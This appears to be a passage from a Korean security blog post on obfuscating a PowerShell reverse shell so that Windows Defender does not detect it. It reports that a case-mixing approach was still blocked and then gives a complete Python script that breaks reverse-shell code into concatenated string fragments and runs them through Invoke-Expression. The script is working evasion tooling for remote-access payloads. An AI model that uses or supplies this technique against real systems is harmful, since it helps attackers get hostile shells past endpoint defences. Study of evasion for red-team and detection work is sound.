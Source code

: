 <br>

![image](/assets/posts/250902-14.png)

위의 코드로 대소문자가 섞인 난독화된 PowerShell Reverse Shell 코드를 생성할 수 있다. 그러나 이 방법도 파일이 생성됨과 동시에 Windows Defender에 의해 차단되는 것을 확인할 수 있다.

<br>
<br>

## Division/Whitespace

PowerShell에서 `'String' + 'String'` 형태로 문자열을 결합할 수 있고, 이를 이용하여 난독화된 코드를 생성할 수 있다. PowerShell에서 문자들이 결합하여 문자열을 이룰 수 있도록 싱글 쿼터와 더블 쿼터를 모두 하나로 맞춰주고, 문자열이 결합된 후에 이 식이 평가되어 실행될 수 있도록 `Invoke-Expression`을 이용한다.

<br>

```python
# division.py

def division_obfuscation(revshell_code):
    revshell_code = revshell_code.replace('\n', '')
    revshell_code = revshell_code.replace('\r', '')
    revshell_code = revshell_code.replace(' ', '')
    revshell_code = revshell_code.replace("'", '"')

    obfuscated_code = '$str='
    for index, char in enumerate(revshell_code):

        if index % 3 == 0:
            obfuscated_code += f"'{char}"
        elif index % 3 == 1:
            obfuscated_code += f"{char}'"
        else:
            obfuscated_code += f"+'{char}'+"

    if obfuscated_code.endswith("+"):
        obfuscated_code = obfuscated_code[:-1]

    obfuscated_code += ';Invoke-Expression $str'

    return obfuscated_code


if __name__ == "__main__":
    with open('revshell.txt', 'r') as file:
        revshell_code = file.read()

        obfuscated_code = division_obfuscation(revshell_code)

        print(obfuscated_code)

        with open('revshell.ps1', 'w') as file:
            file.write(obfuscated_code)
```
